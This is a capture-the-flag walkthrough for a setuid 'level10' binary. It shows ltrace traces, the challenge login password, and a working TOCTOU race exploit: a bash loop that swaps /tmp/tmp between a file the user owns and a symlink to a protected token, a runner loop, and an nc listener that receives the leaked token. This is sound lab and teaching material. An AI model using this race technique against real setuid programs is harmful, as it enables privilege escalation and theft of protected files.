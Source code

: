 # 10

Login

```b
> ssh level10@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: s5cAJpM8ev6XHw998pRWG728z
```

Tryout
- 2 files, seen it before
- try - `cat` - `./level10` - `./level10 token localhost`

```b
> ls -l
-rwsr-sr-x+ 1 flag10 level10 10817 level10
-rw-------  1 flag10 flag10     26 token

> cat token
cat: token: Permission denied

> ./level10
./level10 file host
	sends file to host if you have access to it

> ./level10 token localhost
You don't have access to ./token
```

Problem
- The main issue here is file `./token` - we dont have its permission
- `ltrace` - find out how `./level10` checks permission 
  - it uses `access()` 

```b
> ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                         = -1
^^^^^^ 🟡 

printf("You don't have access to %s\n", "token"You don't have access to token
)           = 31
+++ exited (status 31) +++
```

- Touch a file of our own, try again

```b
> ./level10 /tmp/tmp localhost
Connecting to localhost:6969 .. Unable to connect to host localhost

> ltrace ./level10 /tmp/tmp localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/tmp", 4)                                      = 0
printf("Connecting to %s:6969 .. ", "localhost")           = 32
                         ^^^^ 🟡 
fflush(0xb7fd1a20Connecting to localhost:6969 .. )         = 0
                                         ^^^^ 🟡 
```

- The program interacts with `localhiost:6969`
- we need a valid Host IP : 
  - `127.0.0.1`, or the old trick
  - `ifconfig | grep 'inet ' | awk 'NR==2 {print $2}' | cut -d ":" -f2`

```b
> ./level10 /tmp/tmp $(ifconfig | grep 'inet ' | awk 'NR==2 {print $2}' | cut -d ":" -f2)
Connecting to Localhost:6969 .. Connected!
Sending file .. wrote file!
```

nc, ltrace
- it opens and reads and sends out `/tmp/tmp` content
- it sends the content to `Localhost:6969`

```b
# t1
> nc -kl 6969
```
```b
# t2
> touch /tmp/tmp
> ./level10 /tmp/tmp Localhost
> Connecting to Localhost:6969 .. Connected!
Sending file .. wrote file!
```

- we want it to open/read/send the `token` instead!

```b
> ltrace ./level10 /tmp/tmp $(ifconfig | grep 'inet ' | awk 'NR==2 {print $2}' | cut -d ":" -f2)
.
.
.
printf("Connected!\nSending file .. "Connected!
)                     = 27
fflush(0xb7fd1a20Sending file .. )                                         = 0
open("/tmp/tmp", 0, 010)                                   = 4
      ^^^^^^^^ 🟡 here is where our `token` should be read

read(4, "", 4096)                                          = 0
write(3, "", 0)                                            = 0
puts("wrote file!"wrote file!
)                                        = 12
+++ exited (status 12) +++
```

Goal
- Figure out a way to force `./level10` to read the true `token`:
  - exploit `access()`'s [TOCTOU](https://stackoverflow.com/questions/75587120/how-to-handle-toctou-problem-between-access-and-unlink) vulnerability 
- How: let's create a racing condition
- Design a file to do the following:
  - force `access()` to check a low-priority file
  - then, `open()` and `read()` deal w/ the hi-priority one

Solution:
- we need a file that _alternates_ its own type
  - type 1: a symlink to `token`
  - type 2: a regular file of our own
- write a script to do this 👇

`alternate.sh`

```b
#!/bin/bash

rm -rf /tmp/tmp
t=/tmp/tmp

while true; do
  touch $t
  rm -rf $t
  ln -s /home/user/level10/token $t
  rm -rf $t
done

```

`runner.sh`

```b
#!/bin/bash

while true; do
  /home/user/level10/level10 /tmp/tmp 127.0.0.1 >/dev/null
done
```

- Run `alternate.sh` `runner.sh` and `nc -kl` at the same time

```b
bash /tmp/alt.sh 2>/dev/null & \
bash /tmp/go.sh  2>/dev/null & \
nc -kl 6969 | grep -v '[][()]'
	OR
nc -kl 6969 | grep -E '[a-z0-9]'

*** kill $(jobs -p)
```
